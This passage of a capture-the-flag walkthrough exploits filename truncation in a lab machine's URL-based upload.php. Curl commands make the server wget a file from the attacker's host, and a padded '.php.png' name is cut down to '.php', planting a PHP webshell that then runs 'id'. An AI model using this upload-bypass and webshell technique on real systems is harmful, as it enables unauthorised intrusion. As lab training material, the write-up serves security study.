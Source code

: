 

At 237 characters, the full file is still requested at http server:



    10.10.10.73 - - [15/May/2018 12:22:50] code 404, message File not found
    10.10.10.73 - - [15/May/2018 12:22:50] "GET /AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAtest.png HTTP/1.1" 404 -



Looking in more detail at the output from 237 character file name:



    root@kali# URL=$(python -c 'print "http://10.10.15.99:8081/" + "A"*229 + "test.png"'); curl -i -s -k  -X $'POST'     -H $'Referer: http://10.10.10.73/upload.php' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Cookie: PHPSESSID=g9kp8du6ofpc7g8m5d81nt2c00'     --data-binary "url=$URL" $'http://10.10.10.73/upload.php' | grep -e "The name is too long" -e shorten -e "New name"
            <pre>The name is too long, 237 chars total.
    Trying to shorten...
    New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAtest.pn.



The new name is no longer a png file.

So upload a php webshell that ends in `.php.png` that is just long
enough that the last four characters get truncated:



    root@kali# URL=$(python -c 'print "http://10.10.15.99:8081/" + "A"*232 + ".php.png"'); curl -i -s -k  -X $'POST'     -H $'Referer: http://10.10.10.73/upload.php' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Cookie: PHPSESSID=g9kp8du6ofpc7g8m5d81nt2c00'     --data-binary "url=$URL" $'http://10.10.10.73/upload.php' | grep -e "The name is too long" -e shorten -e "New name" -e CMD
            <pre>CMD: cd /var/www.md/uploads/0515-1930_45ed3e0a6a8c22db; wget 'http://10.10.15.99:8081/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png'</pre>
            <pre>The name is too long, 240 chars total.
    Trying to shorten...
    New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.



Test the shell:



    root@kali# curl http://10.10.10.73/uploads/0515-1930_45ed3e0a6a8c22db/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
